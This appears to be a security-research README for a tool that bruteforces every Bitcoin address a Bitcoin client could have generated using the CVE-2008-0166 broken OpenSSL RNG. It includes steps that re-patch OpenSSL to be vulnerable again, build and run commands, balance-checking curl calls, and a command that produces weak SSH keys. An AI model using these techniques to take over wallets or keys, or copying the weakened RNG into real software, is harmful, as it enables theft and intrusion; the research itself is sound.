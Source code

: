 # thc-btc-rng-bruteforce

A tool to determine if anyone ever used the Bitcoin client software to receive a Bitcoin payment on a system that uses the [CVE-2008-0166](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-0166) broken Random Number Generator. (The tool generates all possible combinations of bitcoin addresses using the broken RNG).

**Answer:** We did not find any. Tought, it was a lot of fun searching...

The broken version of OpenSSL was being seeded only by the process ID. Due to differences between endianness and sizeof(long), the output was architecture-specific: little-endian 32bit (e.g. i386), little-endian 64bit (e.g. amd64, ia64), big-endian 32bit (e.g. powerpc, sparc). PID 0 is the kernel and PID_MAX (32768) is not reached when wrapping, so there were 32767 possible random number streams per architecture.

Perhaps this research motivates somebody to check against other broken RNG's...

**Background:**
The Bitcoin client uses the OpenSSL library. In particular it uses the 'EC_KEY_generate_key()' function to generate bitcoin addresses (e.g. key) for receiving payments.

Older versions of the Bitcoin client generate and store 100 keys in wallet.dat. A new key is only generated whenever a Bitcoin payment is received. Thus the client keeps a pool of 100 unused Bitcoin keys (addresses).

The state of the internal Random Number Generator depends on what other calls were made to the OpenSSL Library before the call to 'EC_KEY_generate_key()'. The calls that affect the internal RNG state are "RAND_add(8)", "RAND_bytes(8)" and "RAND_bytes(32)". 

The research was thus to review *a lot of old* Bitcoin source to find out what calls were made that affected the internal RNG state before calling 'EC_KEY_generate_key()'. The call path changes between Bitcoin versions and there is a different call path if the GUI or text interface of the Bitcoin client is used.

The research focused on these version of the Bitcoin client:

| Release date | Version |
|--------------|---------|
|2009-DEC-14| v0.2.0| 
|2010-AUG-04| v0.3.8|
|2011-JUL-08| v0.3.24|
|2011-DEC-14| v0.5.1|
|2012-JUN-25| v0.6.3|
|2013-DEC-09| v0.8.6|
|2014-JUN-01| v0.9.1|
|2015-JAN-12| v0.9.4|
|2015-APR-09| v0.10.0|

The format of the Bitcoin addresses changed over time. First "Public Key Hash" (Pay2PKH) was used. Then "Compressed Public Key Hash" (Pay2CPKH) and finally "Compressed Script Hash" (Pay2CSH).

The task thus was to generate the Bitcoin keys for each bitcoin version, for each architecture (le32/le64), for each Process ID and for each of the 3 address variants (PKH, CPKH and CSH)...using the broken Random Number Generator.

This tool does all this.

**Setup / Compiling**

Make OpenSSL Vulnerable again
```
$ wget https://ftp.openssl.org/source/old/0.9.x/openssl-0.9.8c.tar.gz
$ tar xfz openssl-0.9.8c.tar.gz
$ mv openssl-0.9.8c openssl-0.9.8c-vuln
$ cd openssl-0.9.8c-vuln
$ patch -p1 <../make-OpenSSL-0-9-8c-vulnerable-again.diff
```

On a LE-32 system use:
```
$ ./Configure linux-generic32 shared no-ssl2 no-ssl3 no-comp no-asm
$ make depend all
```

On a LE-64 system use:
```
$ ./Configure linux-x86_64 shared no-ssl2 no-ssl3 no-comp no-asm
$ make depend all
```

Compile
```
$ gcc -o thc-btc-rng-bf thc-btc-rng-bruteforce.c -I./openssl-0.9.8c-vuln/include -L./openssl-0.9.8c-vuln -lssl -lcrypto
```

Run (also try -h and -l):
```
$ LD_LIBRARY_PATH=./openssl-0.9.8c-vuln/ ./thc-btc-rng-bf -v 0
```

The output will look something like this:
```
Stats: Version 0.3.24, Arch le32, keys 10, Pid 0-32768
A UPKH: 1f9zW98RUdaNUvpQCiFeWRz6Ns5GGTsyh
A CPKH: 1NCbVqf4fqPYNrbLEybUqukA71WXTgFPd8
A -CSH: 34S6vMKpjcuPmQT3D1o55bKq7z2agg7Qpe
A UPKH: 1HeXLUdkuC7pbwfuu7XRrhP5gVvzxGsoPL
A CPKH: 16uQGb6aEfxR4swV9ze6C4p5AGdFsAqZnQ
A -CSH: 34kA1xsgTwu5uSBm1GzSCcVEsCDjKegUrY
A UPKH: 16RdRFMHPdnbui54wm4Z9nVDMa3tnBpYG8
A CPKH: 11tSPNTXC8mkCWZaEYfqv5yhhefwXvxfv
[...]
```


**Checking**

We leave it as an exercise to the user to check wether the vulnerable addresses were recorded in the Bitcoin blockchain. We use [bitcore](https://github.com/bitpay/bitcore) and ran a full node and a dirty curl script for checking:

```
curl http://127.0.0.1:3000/api/BTC/mainnet/address/$addr
curl http://127.0.0.1:3000/api/BTC/mainnet/address/$addr/balance
```

**CVE-2008-0166 and ssh**

The patch can be used for other shenanigans such as checking for vulnerable ssh keys:

```
$ LD_LIBRARY_PATH=./openssl-0.9.8c-vuln/ PIDHACK=31337 ./ssh-keygen -f id_rsa -N ""
```

Which on a 32 bit system results in:
```
95:14:8a:62:56:d1:7a:32:07:3c:4f:57:86:d6:58:45 root@thc.org
```
